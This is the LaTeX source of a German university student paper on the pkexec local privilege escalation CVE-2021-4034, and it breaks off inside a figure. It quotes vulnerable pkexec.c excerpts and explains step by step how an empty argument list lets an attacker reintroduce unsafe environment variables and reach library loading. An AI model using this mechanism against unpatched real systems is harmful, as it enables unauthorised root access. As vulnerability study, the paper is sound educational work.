% Preamble
\documentclass[oneside,11pt,a4paper,article,german]{memoir}

% Packages
\usepackage{amsmath}
\usepackage{xcolor}
\usepackage{acronym}
\usepackage{graphicx}
\usepackage{listings}
\usepackage[hidelinks]{hyperref}
\usepackage{grffile}
\usepackage{memhfixc}
\usepackage[ngerman]{babel}
\usepackage[absolute]{textpos}
\usepackage{amssymb}
\usepackage{tikz}
\usepackage{fontspec}
\usepackage{minted}
\usepackage{url}
\usepackage{plain}
\usepackage{wrapfig}
\usepackage{float}
\usepackage{caption}

\renewcommand{\lstlistingname}{Auflistung}

\setlength{\fboxsep}{4pt}
\setlength{\fboxrule}{0.4pt}

\usetikzlibrary[arrows,decorations.pathmorphing,decorations.pathreplacing,backgrounds,positioning,fit,petri,mindmap,trees,shapes]

\usepackage[normalem]{ulem}
\usetikzlibrary{positioning,shapes,shadows,arrows}

% Colors
\definecolor{grey}{cmyk}{0.33,0.04,0,0.72}
\definecolor{TolDarkPurple}{HTML}{332288}
\definecolor{TolDarkBlue}{HTML}{6699CC}
\definecolor{TolLightBlue}{HTML}{88CCEE}
\definecolor{TolLightGreen}{HTML}{44AA99}
\definecolor{TolDarkGreen}{HTML}{117733}
\definecolor{TolDarkBrown}{HTML}{999933}
\definecolor{TolLightBrown}{HTML}{DDCC77}
\definecolor{TolDarkRed}{HTML}{661100}
\definecolor{TolLightRed}{HTML}{CC6677}
\definecolor{TolLightPink}{HTML}{AA4466}
\definecolor{TolDarkPink}{HTML}{882255}
\definecolor{TolLightPurple}{HTML}{AA4499}
\definecolor{bg}{rgb}{0.95,0.95,0.95}

% Margin
\setlrmarginsandblock{2.5cm}{4cm}{*}
\setulmarginsandblock{2.5cm}{2.5cm}{*}
\checkandfixthelayout
\parindent 0pt
\setlength{\parskip}{0.5em}

\usepackage{setspace}
\OnehalfSpacing

\renewcommand{\lstlistlistingname}{Auflistungsverzeichnis}

%% Nicer C++
\newcommand{\CC}{C\nolinebreak\hspace{-.05em}\raisebox{.4ex}{\tiny\bf +}\nolinebreak\hspace{-.10em}\raisebox{.4ex}{\tiny\bf +}}
\def\CC{{C\nolinebreak[4]\hspace{-.05em}\raisebox{.4ex}{tiny\bf ++}}}

\lstset{
% language         = C++, % choose the language of the code
    basicstyle       = \ttfamily\small,
    keywordstyle     = \bfseries\UMono\colr{TolDarkBlue},
    stringstyle      = \color{TolDarkGreen}\UMono,
    commentstyle     = \color{grey},
    emph             = {square},
    emphstyle        = \color{TolDarkBlue}\texttt,
    emph             = {[2]root,base},
    emphstyle        = {[2]\color{yac}\texttt},
    showstringspaces = false,
    flexiblecolumns  = false,
    tabsize          = 2,
    backgroundcolor  = \color{bg},
    breaklines       = true,
    frameround       = ftff,
    frame            = none,
    numberblanklines = false,
    stepnumber       = 1,
    numbersep        = 10pt,
    xleftmargin      = 0pt,
    captionpos       = b,
}

\author{Christoph Friedrich (00501522) und Niklas Borowski (00536822) \\Hochschule für Angewandte Wissenschaften Hof}
\date{Angewandte IT-Sicherheit \\ Wintersemester 2025/26}
\title{\textbf{Studienarbeit über die Schwachstelle CVE-2021-4034}}
\hypersetup{
    pdfauthor={Christoph Friedrich und Niklas Borowski},
    pdftitle={Studienarbeit über die Schwachstelle CVE-2021-4034},
    pdfkeywords={},
    pdfsubject={},
    pdfcreator={Emacs 27.0.50 (Org mode 9.2.3)},
    pdflang={de-DE}}

\usepackage[
    backend=biber,
    style=numeric,
    citestyle=numeric,
    sorting=none
]{biblatex}

\addbibresource{mybib.bib}

% Document
\begin{document}

\maketitle
\thispagestyle{empty}
\begin{abstract}
    \sloppy
    \hspace*{1.5em}Die vorliegende Studienarbeit im Rahmen des Wahlmoduls \textit{Angewandte IT‑Sicherheit} behandelt die Schwachstelle CVE‑2021‑4034, die im Januar 2022 veröffentlicht wurde. Betroffen ist \texttt{pkexec}, ein SUID‑Root‑Programm der \texttt{polkit}‑Komponente, das standardmäßig auf nahezu allen gängigen Linux‑Distributionen installiert ist.
    \par Es handelt sich um eine LPE, durch die ein unprivilegierter lokaler Benutzer vollständige Root-Rechte erlangen kann.
    \par Die Schwachstelle existiert seit der Einführung von \texttt{pkexec} im Jahr 2009. Ihre hohe Kritikalität ergibt sich aus der weiten Verbreitung von \texttt{polkit} sowie der Nutzung eines privilegierten SUID‑Binaries.
    \fussy

\end{abstract}

\newpage
\renewcommand*{\contentsname}{Inhaltsverzeichnis}
\begin{KeepFromToc}
    \tableofcontents
\end{KeepFromToc}
\thispagestyle{empty}
\newpage


\listoffigures
\thispagestyle{empty}
\thispagestyle{empty}
\lstlistoflistings
\thispagestyle{empty}

%% Acronyms
\section*{Abkürzungsverzeichnis}
\addcontentsline{toc}{chapter}{Abkürzungsverzeichnis}
\thispagestyle{empty}
\begin{acronym}[PKEXEC]
    \acro{CVE}{Common Vulnerabilities and Exposures}
    \acro{GCONV}{GNU character set conversion}
    \acro{glibc}{GNU C Library}
    \acro{SUID}{Set-User-ID}
    \acro{SGID}{Set-Group-ID}
    \acro{pkexec}{PolicyKit Executor}
    \acro{ARGV}{Arguments Vector}
    \acro{ARGC}{Arguments Counter}
    \acro{API}{Application Programming Interface}
    \acro{polkit}{PolicyKit}
    \acro{LPE}{Local Privilege Escalation}
\end{acronym}
\newpage


\chapter{Einführung}

Moderne Linux-Systeme basieren auf einem differenzierten
Berechtigungsmodell, das zwischen normalen Benutzern und privilegierten Prozessen
unterscheidet (vgl. \cite{n3_users_permissions}). Während klassische Mechanismen wie \texttt{sudo} \cite{n4_ubuntuusers_sudo} oder SUID-Binaries \cite{n4_archlinux_security_suid_sgid}
eine vollständige Rechteausweitung erlauben, verfolgen neuere Ansätze wie
\texttt{polkit} \cite{n1_polkit} ein feingranulares, kontextabhängiges Sicherheitsmodell. Diese Arbeit untersucht eine Schwachstelle in \texttt{polkit}
(CVE-2021-4034) \cite{n3_cve_2021_4034}, die es lokalen Angreifern erlaubt, eine Privilege Escalation bis hin zu Root-Rechten durchzuführen.

\section{Die Rolle von polkit und pkexec}
Das PolicyKit \cite{n1_polkit}, kurz \texttt{polkit}, ist ein Framework auf
Anwendungsebene, mit dem sich Richtlinien definieren und verwalten lassen, um
eine feinere kontextabhängige Autorisierung zu ermöglichen. Das Framework wird zum
Verwalten systemweiter Zugriffsrechte genutzt und erlaubt im Gegensatz zu
\texttt{sudo} \cite{n4_ubuntuusers_sudo} keine Root-Berechtigungen auf einen gesamten Prozess, sondern
ermöglicht eine detailliertere Definition einer zentralisierten Systemrichtlinie. Hierfür können Benutzer bestimmt werden, denen
bestimmte Aktionen erlaubt werden, für die normalerweise Root-Rechte notwendig
wären, ohne sie zu Administratoren zu machen (vgl. \cite{n2_ubuntuusers.de_polkit}).

\texttt{polkit} stellt drei Kommandozeilenprogramme zur Verfügung (vgl. \cite{n2_ubuntuusers.de_polkit}):

\begin{itemize}
    \item \texttt{pkexec} führt ein Programm mit den Rechten eines anderen Benutzers oder auch als Root aus
    \item \texttt{pkaction} zeigt Aktionen gut lesbar an
    \item \texttt{pkcheck} prüft ob ein Prozess für eine bestimmte Aktion autorisiert werden kann bzw. bereits ist
\end{itemize}

In der hier untersuchten Schwachstelle ist im Speziellen \texttt{pkexec} relevant, das grundsätzlich die gleiche Aufgabe wie \texttt{sudo} erfüllt,
jedoch eine feinere Rechtesteuerung ermöglicht (vgl. \cite{n2_ubuntuusers.de_polkit}). Aufgrund seiner zentralen Rolle in der Rechteverwaltung
stellt \texttt{polkit} eine sicherheitskritische Systemkomponente dar. Fehler in dessen Implementierung können dazu führen, dass die vorgesehenen Zugriffsbeschränkungen
umgangen werden. Eine solche Schwachstelle ist CVE-2021-4034 \cite{n3_cve_2021_4034}, auch bekannt als PwnKit, die es lokalen Angreifern ermöglicht, ohne vorherige
Authentifizierung Root-Rechte zu erlangen.

\section{Memory Corruption vs. Logic Flaw}

Eine Memory Corruption bezeichnet einen Fehlerzustand, bei dem ein Programm Speicher in einer nicht vorgesehenen Weise verändert oder verwendet,
sodass der interne Programmzustand verfälscht wird und es zu undefiniertem oder sicherheitskritischem Verhalten kommen kann
(vgl. \cite{c1_memory_corruption_stern, c2_memory_corruption_wikipedia}).

\par Grundsätzlich gibt es vier Arten von Memory-Corruption-Fehlern:
\begin{itemize}
    \item Zunächst gibt es den \textit{Buffer Overflow} (vgl. \cite{c1_memory_corruption_stern}), der auftritt, wenn Daten den ihnen zugewiesenen Speicherplatz
    überschreiten und benachbarte Speicherbereiche überschreiben.
    \item Eine weitere ist die \textit{Use-After-Free} (vgl. \cite{c1_memory_corruption_stern}) Schwachstelle, welche auftritt, wenn ein Programm versucht
    memory zu verwenden, nachdem dieser freigegeben wurde, was zu einem undefined behavior führt.
    \par Angreifer nutzen das aus, um beliebigen Code auszuführen oder Daten zu beschädigen, indem sie den freigegeben Speicher manipulieren, bevor er
    wiederverwendet wird.
    \item Der \textit{Double-Free error} (vgl. \cite{c1_memory_corruption_stern}) tritt auf, wenn ein Prgramm versehentlich denselben Speicherbereich mehrmals freigibt,
    was zu einer Memory Corruption oder Abstürzen führen kann. Das sind häufig Logikfehler im Programmablauf.
    \item \textit{Memory Leaks} (vgl. \cite{c1_memory_corruption_stern}) treten auf, wenn ein Programm nicht verwendeten Speicher nicht freigibt, was zu einer
    fortschreitenden Auslastung der verfügbaren Speicherresourcen führt.
    \par Dies kann zwar nicht zur Ausführung von beliebigen Code ausgenutzt werden, aber andere Angriffe erleichtern, indem die Stabilität
    des Systems beeinträchtigt wird.

\end{itemize}

Häufige Folgen von Memory Corruption sind Schwachstellen, Programmabstürze und Instabilität, Beschädigung von Daten und Undefiniertes Verhalten (vgl. \cite{c1_memory_corruption_stern}).
\par
Im Gegensatz dazu beruhen Logic Flaws (vgl. \cite{c21_logic_flaw_portswigger}) nicht auf fehlerhaften Speicherzugriffen,
sondern auf falschen Annahmen oder unvollständigen Prüfungen im Programmablauf.
Solche Fehler entstehen häufig durch nicht korrekt behandelte Edge Cases, fehlende Validierungen oder inkonsistente Zustände im Kontrollfluss eines Programms.
Ein Logic Flaw kann beispielsweise vorliegen, wenn ein Programm davon ausgeht, dass bestimmte Eingaben immer vorhanden oder gültig sind, ohne diese Annahme
explizit zu überprüfen. In sicherheitskritischen Anwendungen kann dies dazu
führen, dass Schutzmechanismen umgangen werden oder privilegierte Operationen trotz unzulässiger Ausgangsbedingungen ausgeführt werden.
\par

\chapter{Hintergrund}
Dieses Kapitel behandelt die technischen und sicherheitsrelevanten Grundlagen ausgewählter Mechanismen des Linux-Betriebssystems.
Im Fokus stehen dabei die Verwaltung von Privilegien, der Ablauf beim Start von Prozessen sowie das dynamische Laden von Bibliotheken.
Das Verständnis dieser Grundlagen ist wichtig, um die Funktionsweise und die Auswirkungen der Schwachstelle CVE‑2021‑4034 im nachfolgenden Kapitel nachvollziehen zu können.

\section{Funktionsweise von pkexec in polkit}

\texttt{polkit} vermittelt zwischen einem unprivilegierten Client-Prozess eines Benutzers und konkreter Aktionen von privilegierten Programmen
bzw. Systemdiensten (vgl. \cite{n9_ubuntuusers_policykit}). Dabei kann ein Client beispielsweise ein grafisches Programm oder ein Befehl für die Kommandozeile sein. Ein Programm wird als
privilegiert bezeichnet, wenn es die erforderlichen Fähigkeiten und Berechtigungen besitzt, das System zu verändern.
\par
Die Entscheidung, ob in der vorliegenden Situation die beauftragte Aktion für den Benutzer zulässig ist oder nicht, trifft der Dienst \texttt{polkitd} basierend auf definierten
Regeln, welche Aktion von welchem Benutzer ausgeführt werden darf. Falls erforderlich wird der Benutzer über den Authentifizierungsagent zur Authentifizierung
aufgefordert (beispielsweise durch Eingabe des Passworts). \texttt{polkit} meldet das Ergebnis der Autorisierungsprüfung an das aufgerufene privilegierte Programm.
Dieses führt daraufhin die angeforderte Aktion aus oder verweigert die Ausführung und meldet die Ergebnisse zurück an den aufrufenden Client (vgl. \cite{n9_ubuntuusers_policykit}).
Zur Veranschaulichung des vollständigen Autorisierungsprozesses über \texttt{polkit} dient die folgende Abbildung:
\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{PolicyKit-1}}
    \caption{Arbeitsweise \texttt{polkit} \cite{n9_ubuntuusers_policykit}}
    \label{fig:Arbeitsweise Polkit}
\end{figure}

\par
Das SUID-Programm \texttt{pkexec} aus dem \texttt{polkit}-Projekt ermöglicht bestimmten Benutzern, unter Nutzung des \texttt{polkit} Frameworks, ein Programm als ein anderer Benutzer
(normalerweise Root) auszuführen. Es dient als Schnittstelle zwischen Benutzerbefehlen und dem Autorisierungssystem von \texttt{polkit} und übernimmt dabei den vollständigen
Ablauf von der Auswertung der Kommandozeilenparameter bis zur sicheren Ausführung des Programms. Um mit \texttt{pkexec} einen Befehl als Root auszuführen wird
das Programm als Argument an \texttt{pkexec} übergeben (vgl. \cite{n10_linuxconfig_polkit}).
\par
Da übergebene Argumente von \texttt{pkexec} nicht validiert werden, besteht hier ein Sicherheitsrisiko bei der Nutzung von \texttt{pkexec} auf das unter
anderem in den Quellen \cite{n12_linux_man_pkexec} und \cite{n11_ubuntuusers_pkexec} hingewiesen wird.

\section{Privilege-Escalation und SUID-Binaries}

Privilege Escalation (vgl. \cite{c7_privilege_escalation, c8_linux_privilege_escalation}) allgemein bezeichnet das Ausnutzen von Softwarefehlern, Designschwächen oder Fehlkonfigurationen, um höhere Berechtigungen
zu erlangen als ursprünglich vorgesehen.
Auf Unix-ähnlichen Systemen ist diese Trennung ein zentraler Bestandteil des Sicherheitsmodells, da viele sicherheitskritische Operationen
ausschließlich mit administrativen Rechten erlaubt sind (vgl. \cite{c8_linux_privilege_escalation}).
\par
Das Linux-Berechtigungsmodell basiert auf Zugriffskontrollen für Dateien und Prozesse und unterscheidet grundlegende Rechte wie
Lesen, Schreiben und Ausführen sowie spezielle Mechanismen wie SUID, SGID und das Sticky Bit (vgl. \cite{c8_linux_privilege_escalation}).
\par
Ein zentraler Mechanismus im Kontext der Privilege Escalation sind sogenannte SUID-Programme. Ist das SUID-Bit
gesetzt, wird ein Programm mit den Rechten seines Dateibesitzers ausgeführt, unabhängig vom aufrufenden Benutzer (vgl. \cite{c8_linux_privilege_escalation, c9_setuid}).
\par
Gerade dieser Mechanismus stellt ein erhöhtes Sicherheitsrisiko dar. Programme mit gesetztem SUID-Bit werden bereits beim Start mit erhöhten
Rechten ausgeführt. Fehler in der Argumentverarbeitung, im Umgang mit Umgebungsvariablen oder in der Initialisierung von Bibliotheken können
daher unmittelbare Auswirkungen auf Prozesse mit administrativen Rechten haben und Privilege Escalation ermöglichen (vgl. \cite{c9_setuid}).

\section{Prozessstart und Speicherlayout}
Um nachvollziehen zu können, was beim Start eines neuen Prozesses im Speicher geschieht, dient die folgende Abbildung zur Veranschaulichung.

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{speicherlayout_prozessstart_1}}
    \caption{Speicherlayout beim Prozessstart \cite{n5_redhat_RHSB-2022-001}}
    \label{fig:Speicherlayout beim Prozessstart}
\end{figure}

Beim Start eines neuen Prozesses initialisiert der Linux-Kernel ein Array mit den übergebenen Befehlsargumenten \texttt{argv},
ein weiteres Array mit den Umgebungsvariablen \texttt{envp} sowie einen ganzzahligen Wert, der die Anzahl der
Argumente angibt \texttt{argc}. Sowohl das Argument-Array als auch das Umgebungsvariablen-Array werden dabei zusammenhängend im
Speicher abgelegt.
\par
Ein weiteres Standardverhalten besteht darin, dass der erste Eintrag des Argument-Arrays
\texttt{argv[0]} den Namen der auszuführenden Datei enthält (beispielsweise \texttt{pkexec} für das gleichnamige Programm).
Alle vom Benutzer übergebenen Argumente folgen entsprechend in den nachfolgenden Einträgen.
Der Eintrag \texttt{argv[argc]} ist per Definition \texttt{NULL} und markiert das Ende des Argument-Arrays, worauf im Speicher
unmittelbar das Array der Umgebungsvariablen folgt (vgl. \cite{n5_redhat_RHSB-2022-001}).

\section{Dynamic Loading: iconv und gconv}

Dynamic Loading (vgl. \cite{c3_dynamic_loading_wikipedia}) bezeichnet einen Mechanismus, bei dem ein Programm zur Laufzeit zusätzliche Bibliotheken in den Speicher laden
und deren Funktionen oder Variablen verwenden kann. Im Gegensatz zum statischen Verknüpfen und dynamischen Verknüpfen sind diese Bibliotheken
beim Programmstart nicht fest gebunden, sondern werden bei Bedarf während der Programmausführung geladen.
\par
In Unix und Unix-ähnlichen Betriebssystemen ist \texttt{iconv} (vgl. \cite{c4_iconv}) ein Kommandozeilenprogramm und eine standardisierte API. Es wird zur Konvertierung
zwischen verschiedenen Zeichenkodierungen verwendet.
Unter modernen Linux-Systemen ist \texttt{iconv} Teil der \texttt{glibc} (vgl. \cite{c4_iconv, c5_gnu_c}), der zentralen Standardbibliothek für Linux, welche grundlegende
Laufzeitfunktionen für Programme bereitstellt. Die \texttt{glibc} implementiert die \texttt{iconv}-API und greift zur Durchführung der Zeichenkonvertierung
auf intern dynamisch geladene Module zurück (vgl. \cite{c6_glibc_gconv}).
Die eigentliche Umsetzung der Zeichenkodierungs-Konvertierungen erfolgt dabei in der \texttt{glibc} über das \texttt{gconv}-Framework.
\texttt{gconv} stellt Konvertierungen als dynamisch ladbare Bibliotheken bereit, die zur Laufzeit durch den dynamic loader eingebunden werden (vgl. \cite{c6_glibc_gconv}).
\par

\chapter{CVE-2021-4034: Local Privilege Escalation in polkit's pkexec}
In diesem Kapitel wird die Schwachstelle CVE-2021-4034 \cite{n3_cve_2021_4034} näher betrachtet.
Ziel dieses Kapitels ist es, die technischen Details der Schwachstelle zu erläutern, deren mögliche Ausnutzung aufzuzeigen
sowie geeignete Maßnahmen zur Verteidigung und Absicherung darzustellen.

\section{Details der Schwachstelle}

Die Schwachstelle CVE-2021-4034 betrifft das Programm \texttt{pkexec}, ein SUID-Root-Binary der \texttt{polkit}-Komponente (vgl. \cite{n2_ubuntuusers.de_polkit}),
das standardmäßig auf nahezu allen gängigen Linux-Distributionen installiert ist. Die Schwachstelle
existiert seit der Einführung von \texttt{pkexec} im Jahr 2009 und wurde im Januar 2022 öffentlich bekannt gemacht.
Sie ermöglicht eine LPE, bei der ein lokaler, unprivilegierter Benutzer vollständige
Root-Rechte erlangen kann. Das Konzept der Autorisierung unter Linux verliert somit seine Bedeutung (vgl. \cite{c16_qualys}).
\par
Aus dem von Qualys veröffentlichten Security Advisory zur Schwachstelle CVE-2021-4034 geht hervor \cite{c16_qualys}:
\par
Wenn es einem Angreifer gelingt, das Argument-Array zu leeren, interpretiert \texttt{pkexec} den Inhalt des Environment-Arrays
als die auszuführende Anwendung.
\par
Im Folgenden sind relevante Codeausschnitte aus der Implementierung, vor dem Patch der Schwachstelle, von \texttt{pkexec}, konkret aus der Quelldatei \texttt{pkexec.c}, dargestellt und erläutert, die die Grundlage für die Schwachstelle CVE-2021-4034 bilden \cite{c16_qualys}\cite{n7_pkexec_source_code}.
\par
\begin{lstlisting}[caption={relevante Ausschnitte aus main() von \texttt{pkexec.c} \cite{c16_qualys}\cite{n7_pkexec_source_code}}]
435     main (int argc, char *argv[])
436     {
        ...
534         for (n = 1; n < (guint) argc; n++)
535         {
            ...
568         }
        ...
610         path = g_strdup (argv[n]);          <-- Out-of-Bounds read
        ...
629         if (path[0] != '/')
630         {
            ...
632             s = g_find_program_in_path (path);
            ...
639             argv[n] = path = s;              <-- Out-of-Bounds write
640         }
\end{lstlisting}
\par
Der Ausschnitt der \texttt{main()}‑Funktion aus \texttt{pkexec.c} zeigt, dass im Fall, dass die Anzahl der Befehlszeilenargumente \texttt{argc}
den Wert \texttt{0} annimmt — was dann eintritt, wenn beim Aufruf von \texttt{execve()} eine leere Argumentliste \texttt{argv} übergeben wird —
das erste Element des Argument‑Arrays \texttt{argv[0]} den Wert \texttt{NULL} enthält und damit das Ende der Argumentliste markiert. In diesem Zustand gilt:
\begin{itemize}
    \item In Zeile 534 wird die Schleife aufgrund von \texttt{argc = 0} nicht ausgeführt, sodass die Variable \texttt{n} ihren Initialwert \texttt{1} beibehält.
    \item In Zeile 610 wird der Pointer \texttt{path} Out-of-Bounds von \texttt{argv[1]} gelesen.
    \item In Zeile 639 wird der Pointer \texttt{s} Out-of-Bounds in \texttt{argv[1]} geschrieben.
\end{itemize}
\par
Da die Pointer \texttt{argv} und \texttt{envp} im Speicher aneinandergrenzend sind gilt:
\par
Wenn \texttt{argc = 0} ist, dann ist das Out-of-Bounds Argument \texttt{argv[1]} eigentlich \texttt{envp[0]} und damit der Pointer zur ersten Umgebungsvariable „value“:
\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.8\textwidth]{speicherlayout_prozessstart_2}}
    \caption{Abweichendes Speicherlayout von argv und envp beim Prozessstart \cite{n5_redhat_RHSB-2022-001}}
    \label{fig:Abweichendes Speicherlayout von argv und envp beim Prozessstart}
\end{figure}
Daher gilt:
\par
\begin{itemize}
    \item In Zeile 610 wird der Pfad des auszuführenden Programms Out-of-Bounds von \texttt{argv[1]} (d.\,h. \texttt{envp[0]}) gelesen und verweist auf „value“.
    \item In Zeile 632 wird dieser Pfad „value“ an \texttt{g\_find\_program\_in\_path()} übergeben (da „value“ in Zeile 629 nicht mit einem Slash beginnt).
    \item \texttt{g\_find\_program\_in\_path()} sucht in den Verzeichnissen der Umgebungsvariablen \texttt{PATH} nach einer ausführbaren Datei namens „value“.
    \item Wenn eine solche ausführbare Datei gefunden wird, wird ihr vollständiger Pfad an die aufrufende Stelle in \texttt{main()} von \texttt{pkexec} zurückgegeben (in Zeile 632).
    \item In Zeile 639 wird dieser vollständige Pfad außerhalb des Bereichs in \texttt{argv[1]} (d.\,h. \texttt{envp[0]}) geschrieben, wodurch die erste Umgebungsvariable überschrieben wird.
\end{itemize}
\par
Daraus ergibt sich, dass wenn die Umgebungsvariable \texttt{PATH} „\texttt{PATH=name}” lautet, das Verzeichnis „name” (im aktuellen Arbeitsverzeichnis)
existiert und eine ausführbare Datei namens „value” enthält, wird ein Pointer auf die Zeichenfolge „name/value” Out-of-Bounds in \texttt{envp[0]} geschrieben. Oder, wenn
der \texttt{PATH} „\texttt{PATH=name=.}” lautet, das Verzeichnis „name=.” existiert und eine ausführbare Datei namens „value“ enthält, wird ein Pointer auf die Zeichenfolge
„name=./value“ Out-of-Bounds in \texttt{envp[0]} geschrieben (vgl. \cite{c16_qualys}).
\par
Durch diesen Out-of-Bounds-Write kann eine „unsichere“ Umgebungsvariable wieder in die Umgebung von \texttt{pkexec} eingeführt
werden. Diese „unsicheren“ Variablen werden normalerweise aus der Umgebung von SUID-Programmen entfernt, bevor die Funktion \texttt{main()} aufgerufen wird.
\par
Ein Angreifer kann dies ausnutzen, indem er diese Variablen so manipuliert, dass sie bestimmte Werte und Nutzdaten enthalten, sodass sie
als privilegierter Benutzer ohne Authentifizierungsanforderung ausgeführt werden können.
\par
\begin{lstlisting}[caption={Codebereich um die Environment-Verarbeitung in \texttt{pkexec.c}} \cite{n7_pkexec_source_code}]
639     argv[n] = path = s;

657     for (n = 0; environment_variables_to_save[n] != NULL; n++)
658     {
659         const gchar *key = environment_variables_to_save[n];

662         value = g_getenv (key);

670         if (!validate_environment_variable (key, value))

675     }

702     if (clearenv () != 0)
\end{lstlisting}

Allerdings gilt es zu beachten, dass kurz nach dem Out-of-Bounds-Write in Zeile 639 \texttt{pkexec} seine Umgebung vollständig löscht
(siehe Zeile 702). Daher muss eine Möglichkeit gefunden werden, um Code nach dem Out-of-Bound-Write und vor dem Löschen der Umgebung auszuführen.
Um dieses Problem zu lösen, kann sich die Funktionsweise der Funktion \texttt{validate\_environment\_variable()}
zunutze gemacht werden, welche direkt nach dem Out-of-Bounds-Write aufgerufen wird und dafür zuständig ist, zu überprüfen, ob eine bestimmte Umgebungsvariable gültig ist\cite{n6_mendio_pwnkit}.
Innerhalb dieser Funktion gibt es einen bedingten Aufruf der Funktion \texttt{g\_printerr()} die eine wichtige Rolle für das Ausnutzen der Schwachstelle
einnimmt, da sie letztlich die Privilege Escalation ermöglicht (vgl. \cite{c16_qualys}).
\par

\begin{lstlisting}[caption={validate\_environment\_variable() aus \texttt{pkexec.c}} \cite{n7_pkexec_source_code}]
382     static gboolean
383     validate_environment_variable (const gchar *key,
384                                    const gchar *value)
385     {
        ...
401         if (g_strcmp0 (key, "SHELL") == 0) { ... }
                ...
413         else if ((g_strcmp0 (key, "XAUTHORITY") != 0 && strstr (value, "/") != NULL) ||
414                  strstr (value, "%") != NULL ||
415                  strstr (value, "..") != NULL)
416         {
                ...
420             g_printerr ("\n"
421                         "This incident has been reported.\n");
                ...
423         }
        ...
429     }
\end{lstlisting}

\texttt{g\_printerr()} gibt normalerweise Fehlermeldungen im UTF-8 Format aus\cite{c16_qualys}. Wenn der Zeichensatz (Char Set) allerdings nicht im UTF-8 Format vorliegt,
wird wiederum eine weitere Funktion \texttt{iconv\_open()} von \texttt{glibc} aufgerufen\cite{c16_qualys}, die mit einem Conversion Module die Fehlermeldung in das richtige Format konvertiert. Dieses
Conversion Module wird aus einer dynamischen Bibliothek geladen.
\par
Folgende Abbildung zeigt die Funktionsweise der \texttt{g\_printerr()} Funktion.
\par
\begin{figure}[H]
    \centering
